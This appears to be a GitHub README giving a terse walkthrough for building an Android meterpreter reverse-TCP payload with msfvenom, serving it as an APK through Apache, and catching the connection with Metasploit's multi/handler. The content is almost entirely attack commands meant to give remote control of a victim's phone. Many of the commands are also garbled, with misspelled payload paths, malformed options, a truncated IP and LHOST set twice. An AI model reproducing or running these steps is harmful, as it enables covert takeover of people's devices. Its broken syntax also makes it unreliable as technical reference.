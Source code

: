 # METASPOLITFRAMEWORK-USING-KALI-LINUX
  "MAKE DOWNLOAD VMWARE FOR USING MORE USING" 
  'go to root terminal to find IPADDRESS FOR YOU CONNECT WIFI OR MOBILE'(because we need to attack the android OS)
 
 ROOT EMULATION:
 if config
Msfvenom-p android\metrpreter\reverse-tcp LHOST=192.168 LPORT=444 T>: /var/www/htime/ifran.apk 
 'I create program  for Metaspolit using root Terminal'
 'then create new tab'
 service apache 2 status
 clear
 service apache 2 start
ACTIVE:ACTIVE(RUNNING)
//NEXT STEP//
' GO TO KALI LINUX START < ENTER METASPLOIT FRAMEWORK>
METASPLOIT:
Use multi\handler
Set payLOAD android\meterpreter\reverse_tcp
Set LHOST   192....
Set LHOST    444
exploit
<[*] started reverse TCP handler on {ipaddress}

             
            

